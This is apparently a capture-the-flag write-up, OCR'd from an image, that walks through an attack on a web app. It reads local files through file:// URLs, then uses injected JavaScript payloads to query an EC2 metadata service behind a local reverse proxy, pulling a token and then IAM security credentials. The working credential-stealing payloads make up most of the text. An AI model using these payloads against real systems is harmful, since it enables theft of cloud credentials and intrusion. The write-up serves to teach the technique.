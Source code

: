 By pressing Control + U, I found this in the page source,
```
<!-- TODO: Verify the systemd service config for runtime ports (done) -->
```

suggesting that there is something on some port that is listening for some stuff.

So I tried to look in file:///proc/self/environ but there was nothing, then I tried file:///etc/environment and found:

```
PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin"
REVERSE_PROXY_PORT=45198
```

~~Honestly, I just guessed and eventually~~ I deduced that the web server was running a local reverse-proxy to the EC2 instance metadata service (IMDS) on that port so I sent a put request to http://localhost:45198/latest/api/token with

```
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write((this.responseText))};
x.open("PUT","http://localhost:45198/latest/api/token");
x.setRequestHeader('X-aws-ec2-metadata-token-ttl-seconds', '21600');
x.send()
</script>
```

and I received a token :O.

With the token I can finally get some creds with a new payload

```
<script>
var tok = new XMLHttpRequest();
tok.onload = function() {
    var role = new XMLHttpRequest();
    role.onload = function() {
    var creds = new XMLHttpRequest();
        creds.onload = function() {
	    document.write(this.responseText);
        };
        creds.open("GET", 'http://127.0.0.1:45198/latest/meta-data/iam/security-credentials/' + this.responseText);
        creds.setRequestHeader('X-aws-ec2-metadata-token', tok.responseText);
        creds.send();
    };
    role.open("GET", 'http://127.0.0.1:45198/latest/meta-data/iam/security-credentials');
    role.setRequestHeader('X-aws-ec2-metadata-token', this.responseText);
    role.send();
};
tok.open("PUT", 'http://127.0.0.1:45198/latest/api/token');
tok.setRequestHeader('X-aws-ec2-metadata-token-ttl-seconds', '21600');
tok.send();
</script>
```
